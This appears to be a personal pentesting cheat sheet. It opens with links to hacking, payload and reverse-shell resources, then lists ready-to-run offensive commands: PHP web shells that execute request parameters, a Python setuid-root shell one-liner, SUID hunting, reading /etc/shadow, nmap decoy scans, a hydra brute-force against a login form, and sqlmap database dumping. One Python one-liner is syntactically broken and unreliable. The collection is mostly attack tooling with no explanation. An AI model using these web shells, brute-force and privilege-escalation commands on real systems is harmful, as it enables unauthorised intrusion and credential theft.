 #########################################################<br/>
https://start.me/p/vjEPvb/thug-bounty # Pentest / Bug bounty bookmarks
https://start.me/p/QRQb0O/trouble-fake # OSINT bookmarks
#########################################################<br/>
https://github.com/Hack-with-Github/Awesome-Hacking
https://github.com/sehno/Bug-bounty/blob/master/bugbounty_checklist.md
https://github.com/shieldfy/API-Security-Checklist/blob/master/README.md
https://www.jhaddix.com/post/my-xmind-hunt-template-for-hakluke
https://github.com/Ignitetechnologies/Mindmap
#########################################################\n
https://gtfobins.github.io
https://revshells.com
https://cheat.sh/

https://github.com/Orange-Cyberdefense/arsenal
https://github.com/danielmiessler/SecLists
https://github.com/kkrypt0nn/wordlists
https://github.com/fuzzdb-project/fuzzdb

https://github.com/The-Z-Labs/linux-exploit-suggester
https://github.com/carlospolop/PEASS-ng/releases
https://github.com/DominicBreuker/pspy

https://cheatsheetseries.owasp.org/Glossary.html
https://github.com/terjanq/Tiny-XSS-Payloads
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php

https://github.com/gnebbia/hydra_notes
https://gist.github.com/sente/4dbb2b7bdda2647ba80b

https://github.com/Proviesec/google-dorks/blob/main/google-dorks-for-git-files.txt
https://github.com/internetwache/GitTools
https://github.com/Ebryx/GitDump

https://wordlists.assetnote.io/
http://web-sniffer.net/
https://scoop.sh/

https://emkei.cz/
#########################################################\n
https://docs.adyen.com/development-resources/testing/test-card-numbers/
#########################################################\n
*********************INSTALL PIP2***********************
sudo apt install python2.7
cd /opt  && sudo curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
sudo python2 get-pip.py
#########################################################\n

Cookie Injector: 
https://gist.githubusercontent.com/cryptrz/a142f145d250450f408f19a52e0743b1/raw/e046cfb7cf9a4c8b50174651fef1e79e89faeda7/Cookie%2520Injector%2520(mod%2520FF%2520+%2520Chrome)

#########################################################\n

python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm

python3 -c 'import os; execl("/bin/sh"; "sh", "-p")'

/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'

sudo openvpn --data-ciphers AES-256-CBC --config <file>

nmap -sS -Pn -D 10.10.10.1,10.10.10.2,ME -F <TARGET>

nmap -sS -Pn -D RND,10.10.55.33,ME,RND -F <TARGET>

nmap -sV --script=vulscan/vulscan.nse <URL>

nmap -p 53 --script dns-brute <URL>

nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <URL>

nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <URL>

ffuf -w /path/to/wordlist -t 25 -c -ac -mc 200,204,301,302, 307,400, 401,405 -u https://url.com/FFUF

find / -writable -type f 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

find / -perm -u=s -type f -name <word> 2>/dev/null

sqlmap -u https://target.com/ --dbs --random-agent --forms --crawl=2

john file --wordlist=list.txt --format=Raw-MD5

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/path/login.php:username=admin&password=^PASS^:Invalid Password!"

<?php system($_GET['cmd']);?>

<?php echo system($_GET['cmd']); ?>

<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>

To temporarly switch to a bash shell:
exec bash --login

Stabilize a shell on meterpreter:
script /dev/null -c bash
CTRL + Z (nc process into the background)
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash

###########################################################\n
********************LINUX ENUMERATION**********************\n
###########################################################\n
uname -a
cat/proc/version
cat /etc/*-release
cat /proc/cpuinfo
df -a
df -h
cat /etc/shells
whoami
pwd
id
users
cat /etc/passwd
sudo cat /etc/shadow
pinky
w
who -a
last
lastlog
ps
ps -e | more
ps aux | more
top
dpkg -l
route
sudo iptables -L

###########################################################\n
*******************WINDOWS ENUMERATION*********************\n
###########################################################\n

PSTools: https://learn.microsoft.com/en-us/sysinternals/downloads/pstools
Shareenum: https://github.com/CroweCybersecurity/shareenum

systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

###########################################################\n
**********************HTML TEMPLATE************************\n
###########################################################\n

<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title></title>
  </head>
  <body>
    <script type="text/javascript">
      
    </script>
  </body>
</html>
###########################################################
###########################################################
